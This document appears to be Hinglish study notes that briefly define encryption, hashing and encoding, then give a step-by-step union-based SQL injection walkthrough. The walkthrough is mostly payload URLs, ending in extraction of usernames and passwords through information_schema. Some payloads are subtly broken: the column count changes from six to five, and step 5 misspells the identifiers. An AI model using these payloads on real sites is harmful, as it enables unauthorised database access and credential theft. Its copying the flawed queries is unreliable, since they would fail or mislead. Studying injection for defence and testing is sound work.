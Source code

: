 # Encryption  

***ye symmetric or asymmetric ka concept hain jiske under symmetric Encryption ke under single key ka use kiya jata hai kisi bhi text ko encrypt or decrypt krne ke liye --- or asymmetric Encryption ke under public key or private key ka consept ata hai jiske under public key se encrypt or usi publie key ki private key se us text ko decrypt kiya jaa sakta hai***


# Hashing

***hashing ke under SH256 , MD5 ,SHA-1, Bcrypt or bhi bhut sare hashing ate hai jo kisi bhi text ko ya file ka ek hash create kr dete hai even agar us file ke under ek byte ka bhi change ho to hash value total change ho jati hai https ssl certificate***


# Encoding

***Encoding reversible hota hai, matlab original data ko wapis recover kiya ja sakta hai.  like Url encoding , Base64 encoding , Html encoding***


# SQL INJECTION

***Step 1  kisi bhi application ke coloums ko find krna <br/>
<b> https://example.com/?id=1' ORDER BY 1-- </b> <br/>
order by ko increse krte jao jis point per error aya ya application diffrent response kre utne coloum hai example 6 coloum hai***<br/>

***Step 2 <br/>
https://example.com/?id=1' UNION SELECT ALL 1,2,3,4,5,6--<br/>
perticular table ke coloums ke bare main pata krna ki konse coloum se hum apni query ko db main insert krwa rahe hai***

***Step 3 <br/>
https://example.com/?id=1' UNION SELECT ALL 1,@@version,3,4,5,6--<br/>
vulnerble coloum milne ke baad waha se hum db ki informations version jaise data ko retrive kr sakte hai***

----------------------------------------------------------------------------------------------------------------------------------------------------
**NOTES SQL DB ke under information_schema krke ek table create hota hai jiske under sari informations hoti hai like table coloum names kya hai or kisi perticular coloum ka datatype kya hai**
-------------------------------------------------------------------------------------------------------------------------------------------------------

***Step 4 retrive all tables name with the help of information_schema.tables function <br/>
https://example.com/?id=1' UNION SELECT ALL 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()--
<br/>
Yha per humne group_concat kiya hai jiska matlb hota hai ki Is function ke through aap multiple rows ke values ko ek hi column mein combine kar sakte hain aur unhe comma ya koi specific delimiter ke sath separate kar sakte hain. Isse aapko data ko organized aur readable format mein dekhne mein madad milti hai. to data kuch ese show karega jeetu,jassi,mayur jabki ye data alg alg coloum main tha but ek coloum ke under aa gaya ab information_schema.tables use kiya jsike under sare tables and coloum ki details unka datatype sabki information hoti hai to hum vo sari info information_schema se nikal rahe hai or last main jo database hoga vo vo kuch bhi ho to humne database() ye kr diya***


***Step 5 retrive all coloums name with the help of information_schema.coloums function <br/>
https://example.com/?id=1' UNION SELECT ALL 1,group_concat(colums_name),3,4,5 from information_schema.coloums where table_schema=database() and table_name = 'table-name-here'--
<br/>
yaha per jo information_schema function se jo tables name mili thi us table ka naam table-name-here per dalna hai taki hum particular tables ke coloums ki information retrive kr sake***


***Step 6 <br/>
https://example.com/?id=1' UNION SELECT ALL 1,group_concat(password,0x20,username),3,4,5 FROM table-name-here--
<br/>
upper humko information_schema se coloum name and tables mil gayi ab jo coloum ke under senstive info ho usko hum retrive krenge like username, password . humne yaha per bhi group_concat use kiya hai taki sara result ek coloum main show ho or 0x20 ka use isliye kiya taki data jab show ho to clear dikhe ye ek space ka kaam krega***



